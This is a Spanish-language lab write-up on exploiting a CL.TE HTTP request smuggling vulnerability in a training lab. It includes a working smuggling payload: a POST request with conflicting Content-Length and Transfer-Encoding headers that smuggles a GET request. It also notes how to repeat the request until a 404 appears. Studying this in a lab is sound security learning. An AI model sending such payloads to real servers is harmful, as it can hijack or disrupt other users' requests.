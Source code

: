 En esta clase finalizamos el laboratorio dedicado a la vulnerabilidad de HTTP request smuggling basada en CL.TE. Tras haber confirmado el comportamiento anómalo del servidor en las clases anteriores, aquí completamos la explotación para lograr el objetivo final del laboratorio.

Utilizamos el mismo punto vulnerable para smugglear una petición maliciosa que se interpretará de forma distinta entre el frontend y el backend, provocando que una solicitud aparentemente inocua desencadene una respuesta inesperada. Este ataque demuestra cómo un atacante podría manipular el flujo de peticiones HTTP para obtener acceso no autorizado o interferir con otros usuarios, cerrando así el ciclo completo de explotación de esta técnica.

Solucion
entonce conociendo el payload vamos a realizar el ataque
(POST / HTTP/1.1

Host: 0a11006e04c3862f83d5509600060068.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 35

Transfer-Encoding: chunked



0



GET /404 HTTP/1.1

X-Ignore: X)

**==Nota: Tenemos que tener cuidado con los espacios==**
una vez aplicado le damos send y incistimos hasta que nos de el error 404
![Pasted_image_20250806195655.png](/Imagenes/Pasted_image_20250806195655.png)
